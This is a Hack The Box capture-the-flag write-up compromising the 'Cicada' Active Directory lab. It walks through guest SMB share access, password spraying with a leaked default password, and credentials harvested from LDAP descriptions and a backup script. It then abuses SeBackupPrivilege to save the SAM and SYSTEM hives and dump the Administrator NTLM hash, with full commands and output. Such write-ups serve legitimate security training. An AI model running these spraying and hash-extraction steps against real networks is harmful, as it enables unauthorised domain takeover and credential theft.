

# Cicada

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 15/06/2025

## Overview

Complete domain compromise through default password discovery and SeBackupPrivilege abuse for registry extraction.



---

## Phase 1: Reconnaissance

### Network Discovery

```bash
nmap -sC -sV -T4 10.10.11.35 -oA nmap/cicada
```

| Port | Service | Version |
|------|---------|---------|
| 53 | domain | Simple DNS Plus |
| 88 | kerberos-sec | Microsoft Windows Kerberos |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 389 | ldap | Microsoft Windows Active Directory LDAP |
| 445 | microsoft-ds | N/A |
| 464 | kpasswd5 | N/A |
| 593 | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 636 | ldap | Microsoft Windows Active Directory LDAP |
| 3268 | ldap | Microsoft Windows Active Directory LDAP |
| 3269 | ldap | Microsoft Windows Active Directory LDAP |
| 5985 | http | Microsoft HTTPAPI httpd 2.0 |
Standard domain controller port profile indicated Active Directory environment with SMB shares and WinRM available.

### DNS Configuration

I generated and appended a static hostname mapping to `/etc/hosts` to avoid possible DNS resolution issues later on with Kerberos.
```bash
nxc smb '10.10.11.35' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

...
10.10.11.35     CICADA-DC.cicada.htb CICADA-DC
```

### Share Enumeration

Guest access enumeration revealed accessible HR share containing organizational information:
```bash
nxc smb 'CICADA-DC' -u 'wither' -p '' -d 'cicada.htb' --shares

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\wither: (Guest)
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share
```

### Default Password Discovery

HR share contained organizational notice with default password for new employees:
```bash
smbclient -U 'guest' -p ''  \\\\10.10.11.35\\HR

Password for [WORKGROUP\wither]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 12:29:09 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 18:31:48 2024

                4168447 blocks of size 4096. 481599 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (16.5 KiloBytes/sec) (average 16.5 KiloBytes/sec)
smb: \> exit
```

Default password found in the note.
```
cat Notice\ from\ HR.txt 

...
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
...
```

Saved the password to a file:
```bash
echo 'Cicada$M6Corpb*@Lp#nZp!8' > creds.txt
```

### User Enumeration

RID cycling enumeration built target user list for password spraying:
```bash
nxc smb 'CICADA-DC' -u 'guest' -p '' --rid-brute | awk '{print $6}' | cut -d '\' -f2 > potential-users.txt
```

---

## Phase 2: Exploitation - Password Spraying & Credential Discovery

### Password Spraying Attack

Password spraying the discovered default password against enumerated users revealed multiple valid accounts, including additional credentials in user descriptions:
```bash
nxc ldap 'CICADA-DC' -u potential-users.txt -p creds.txt --active-users 

...
cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        [*] Total records returned: 8, total 1 user(s) disabled
LDAP        10.10.11.35     389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.11.35     389    CICADA-DC        Administrator                 2024-08-26 21:08:03 6        Built-in account for administering the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        Guest                         2024-08-28 18:26:56 0        Built-in account for guest access to the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 4        
LDAP        10.10.11.35     389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 4        
LDAP        10.10.11.35     389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
LDAP        10.10.11.35     389    CICADA-DC        david.orelious                2024-03-14 12:17:29 2        Just in case I forget my password is aRt$Lp#7t*VQ!3
LDAP        10.10.11.35     389    CICADA-DC        emily.oscars                  2024-08-22 22:20:17 2  
```

### Complete User Enumeration

Used valid credentials to obtain complete user listing:
```bash
nxc ldap 'CICADA-DC' -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --active-users | awk '{print $5}' | grep -v '[\[*|-]' > users.txt

Administrator
Guest
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

### Share Spidering

SMB share spidering with `david.orelious` credentials revealed additional resources:
```bash
nxc smb 'CICADA-DC' -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -M spider_plus -o DOWNLOAD_FLAG=True 
```

Copy the files from the newly discovered DEV share.
```bash
cp -r /home/wither/.nxc/modules/nxc_spider_plus/10.10.11.35/DEV/* .
```

### Credential Discovery

Backup script contained hardcoded credentials for `emily.oscars`:
```bash
cat Backup_script.ps1                                              

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

### Initial Access

WinRM access validated with `emily.oscars` credentials:
```bash
nxc winrm 'CICADA-DC' -u users.txt  -p creds.txt  -d 'cicada.local'                 
...
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.local\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

User flag was on her Desktop
```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> more ../Desktop/user.txt
```

---

## Phase 3: Privilege Escalation - SeBackupPrivilege

### Privilege Analysis

`emily.oscars` account possessed `SeBackupPrivilege`, which enabled registry hive extraction:
```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### Registry Hive Extraction

`SeBackupPrivilege` allowed reading any file on the system, including protected registry hives containing password hashes:
```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download sam
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download system
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\system to system
                                        
Info: Download successful!
```

### Hash Extraction

Registry hive analysis revealed Administrator NTLM hash:
```bash
pypykatz registry --sam sam system

WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Root flag in Administrator desktop
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ../Desktop/root.txt
```

---

## Conclusion

Complete domain compromise achieved through poor password management practices and dangerous privilege assignments rather than software vulnerabilities.

**Critical Misconfigurations Exploited:**
- Default passwords exposed in accessible file shares
- Plaintext credentials stored in backup scripts
- SeBackupPrivilege assigned to standard user account
- Weak password policies allowing credential reuse

**Key Technical Takeaway:** User accounts with backup privileges can extract registry hives containing password hashes, providing a direct path to domain administrator access without requiring exploitation of traditional privilege escalation vectors.

---

## References
- [Enumerate Users by Bruteforcing RID \| NetExec](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid)
- [Spidering Shares \| NetExec](https://www.netexec.wiki/smb-protocol/spidering-shares)
- [Windows Privilege Escalation: SeBackupPrivilege - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

---
#cicada #htb #easy #windows